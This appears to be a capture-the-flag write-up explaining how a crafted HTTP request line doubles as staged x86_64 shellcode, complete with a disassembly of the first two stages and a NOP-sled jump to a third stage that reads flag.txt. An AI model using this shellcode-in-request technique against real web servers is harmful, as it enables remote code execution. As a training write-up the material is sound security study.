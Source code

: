 The abstracted minimal HTTP GET request (first line):
```http
[Method] [abs_path] HTTP/1.1\r\n
```

## Shellcode Constraints

- `Method` can have machine code for `push` or `pop` x86_64 instructions because of the `A-Z_` characters constraint.
- `abs_path` must start with `/`, but I don't know the exact characters that are allowed, so I'll do some trial and error to find allowed machine code of x86_64 instructions that helps with getting code execution.

## Exploit Overview

1. Stage 1 shellcode to put a readable/writable address in `rdi` for the instruction that's executed in the next step.
2. The required HTTP spec space followed by `/` is the machine code for the `and BYTE PTR [rdi], ch` x86_64 instruction.
3. Stage 2 shellcode to subtract the stack pointer by some fixed offset to get to the location of the Stage 3 shellcode, then jump to it or within the NOPs sled.
4. The remaining HTTP requests and Stage 3 shellcode

The abstracted HTTP exploit request:
```http
[STAGE1] /[STAGE2] HTTP/1.1\r\n
Host: localhost\r\n
Content-Length: [BODY_LENTH]\r\n
\r\n
[NOPS_SLED][STAGE3]
```

The above follows the structure of a HTTP POST request so that the request body, which do not have any constraints, can include Stage 3.

For Stage 3, I overwrote the `index.html` with the `flag.txt`, then visiting the website.

Looking back now, I could have just done `cat /flag.txt` instead because `socat` will pipe the output of `polygod` back to the connection.

## Disassembly of HTTP Exploit Request

```
 0:   54                      push   rsp                # start stage1
 1:   5f                      pop    rdi                # end of stage1
 2:   20 2f                   and    BYTE PTR [rdi], ch # space and slash
 4:   b0 ff                   mov    al, 0xff           # start of stage2
 6:   66 d1 e0                shl    ax, 1
 9:   66 d1 e0                shl    ax, 1
 c:   66 d1 e0                shl    ax, 1
 f:   66 d1 e0                shl    ax, 1
12:   48 29 c7                sub    rdi, rax
15:   48 29 c7                sub    rdi, rax
18:   57                      push   rdi
19:   58                      pop    rax
1a:   48 83 c0 50             add    rax, 0x50
1e:   ff e0                   jmp    rax               # end of stage2, jump to [NOP_SLED]
[REMAINING_PARTS_OF_REQUEST]
[NOP_SLED]
[STAGE3]
```
